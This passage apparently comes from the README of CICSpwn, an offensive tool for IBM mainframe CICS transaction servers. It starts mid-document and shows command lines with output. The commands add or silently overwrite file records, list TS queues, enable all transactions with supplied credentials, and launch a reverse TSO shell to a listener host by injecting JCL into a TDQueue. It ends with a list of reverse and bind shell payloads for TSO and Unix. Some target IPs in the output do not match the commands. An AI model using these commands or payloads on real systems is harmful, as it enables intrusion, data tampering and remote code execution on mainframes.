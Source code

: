 ```
```
Ps: adding --num option fetches only one record

## Add a record to a file
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 --add-record FILEA --num ' 400018' --data file.txt
[[+] Connecting to target 192.168.1.201:23
[*] Access to CICS Terminal is possible with APPID CICS
[*] File FILEA is enabled and open
[*] Record size: 80 keylength:6
[+] Adding record 400018 of file FILEA
[*] Record 400018 was added successfully to file FILEA

```
PS: if record number 400018 exists, CICSpwn updates the record automatically so please be careful.

## List TSQueues
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -e
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting all tsqueues that match *
Tsqueue Items   Length  Transaction
KOS5    00001   0000000064  CECI
TEST    00001   0000000064  CECI
TES5    00001   0000000064  CECI
...

```

## Activate ALL transactions
```
root@kali:~/cics# python cicspwn.py 192.168.1.207 23 -a CICS -U AYOUB -P AYOU1 --enable-tran ALL
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[*] Successful authentication
[+] Activating ALL transactions
[*] All transactions are enabled
...
```

## Reverse shell using CICSpwn
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -s reverse_tso -l 192.168.1.16:4445
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Setting the current terminal to mixed case
[*] Got TerminalID L702
[*] Current terminal is NOW mixed case
[+] Spool not available apparently, trying via TDQueue
[+] Writing to the internal TDQueue
    [*] JCL Written to TDqueue, it should be executed any second

```
## Available shell payloads
* **Reverse_tso**: spawns a reverse tso shell to the host specified by --lhost ip:port option.
* **direct_tso**: same as reverse_tso but binds the shell to --port option
* **reverse_unix**: spawns a reverse unix shell to the host specified by --lhost ip:port option.
* **direct_unix**: same as reverse_unix but binds the shell to --port option